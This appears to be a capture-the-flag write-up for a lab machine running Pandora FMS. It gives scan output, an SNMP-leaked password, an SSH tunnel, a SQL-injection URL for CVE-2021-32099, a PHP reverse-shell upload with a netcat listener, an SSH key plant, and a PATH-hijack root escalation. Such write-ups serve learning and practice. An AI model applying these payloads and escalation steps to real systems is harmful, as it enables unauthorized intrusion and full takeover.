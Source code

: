 #### Initial TCP Scan
```
nmap -sC -sV 10.10.11.136 -oN pandora.nmap

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
9001/tcp open  http    PHP cli server 5.5 or later
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



#### Findings UDP Scan
```
sudo nmap  -sU 10.10.11.136 -oN udp.nmap -vv
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 63

sudo nmap -p 161 -sU -sC -sV 10.10.11.136
826:
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'	

ssh daniel@10.10.11.136 
password: HotelBabylon23
```
Found 3 Users
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
#### Port Forwarding with SSH
```
ssh -L 8000:localhost:80 daniel@10.10.11.136

http://127.0.0.1:8000/pandora_console/
```
#### Pandora FMS 742:POC CVE-2021-32099 
```
https://github.com/ibnuuby/cve-2021-32099
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained
```
#### Using the link below in Browser and refreshing Pandora_console page, we get access to Admin Panel.
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
#### Uploading revershell.php

Navigatig to ```Admin Tools > File Manager```  to upload the ```reverse-shell.php```

#### Getting a shell
Navigating to browser URL
```
127.0.0.1:8000/pandora_console/images/revshell.php
and Listening on Port 4444
nc -lvnp 444
We get a Shell as Matt User
```
#### SSH connection with Matt User
```
Exporting (Kali) id_rsa.pub to (Matt) .ssh/authorized_keys
```
#### Finding Sudo Permissions in Root
```
find / -perm -u=s -type f 2>/dev/null
```
Interesting: ```/usr/bin/pandora_backup```

#### Getting Root
```
echo "/bin/bash" > tar
chmod +x tar
export PATH=$(pwd):$PATH
```
Run: ```/usr/bin/pandora_backup```

We are Root!
